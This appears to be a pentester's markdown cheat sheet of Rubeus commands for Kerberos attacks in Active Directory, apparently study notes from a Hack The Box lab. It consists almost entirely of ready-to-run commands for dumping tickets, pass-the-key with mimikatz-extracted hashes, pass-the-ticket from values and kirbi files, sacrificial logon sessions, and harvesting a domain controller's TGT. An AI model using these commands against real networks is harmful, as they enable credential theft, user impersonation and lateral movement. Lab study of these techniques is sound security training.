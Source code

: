 # Rubeus - AD

## rubeus - export tickets
```
Rubeus.exe dump /nowrap
```

## rubeus - PtK
```
# Using the hash extracted from mimikatz sekurlsa:ekeys
# No need for admin rights
Rubeus.exe  asktgt /domain:<DOMAIN> /user:<USERNAME> /aes256:<KEY/HASH> /nowrap
```

## rubeus - PtT from ticket value
```
# submit the ticket (TGT or TGS) to the current logon session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<TICKET> /ptt
```

## rubeus - PtT from kirbi file
```
# submit the ticket (TGT or TGS) to the current logon session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbgt-blah.blah.kirbi

# OR convert the file as b64 and pass it by value
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-blah.blah.kirbi"))
Rubeus.exe ptt /ticket:<TICKETVALUE>
```

## rubeus - Powershell remoting with PtT
```
# Creates a sacrificial login
# equivalent of 'runas /netonly' => no erasure of existing TGT in the current logon session
# Create a new window, use this session from now
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<Ticket> /ptt
```

# Rubeus - Harvest TGT of specific user
```
Rubeus.exe monitor /interval:10 /targetuser:DC01$
```
